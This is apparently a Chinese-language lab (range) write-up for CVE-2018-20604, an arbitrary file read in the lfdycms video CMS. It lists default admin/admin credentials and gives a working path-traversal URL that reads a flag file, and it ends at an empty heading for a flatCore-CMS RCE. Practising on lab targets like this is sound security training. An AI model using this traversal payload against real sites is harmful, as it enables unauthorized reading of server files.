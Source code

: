 ![image-20230714160613038](%E9%9D%B6%E5%9C%BA.assets/image-20230714160613038.png)



## CVE-2018-20604 lfdycms任意文件读取

*靶标介绍：*

雷风影视CMS是一款采用PHP基于THINKPHP3.2.3框架开发，适合各类视频、影视网站的影视内容管理程序，该CMS存在缺陷，可以通过 admin.php?s=/Template/edit/path/*web*..*..*..*..*1.txt 的方式读取任意文件。

/admin admin/admin

```
http://xxx.com/admin.php?s=/Template/edit/path/*web*..*..*..*..*..*..*flag
```

![image-20230714161159316](%E9%9D%B6%E5%9C%BA.assets/image-20230714161159316.png)



## CVE-2021-41402 flatCore-CMS v2.0.8 RCE
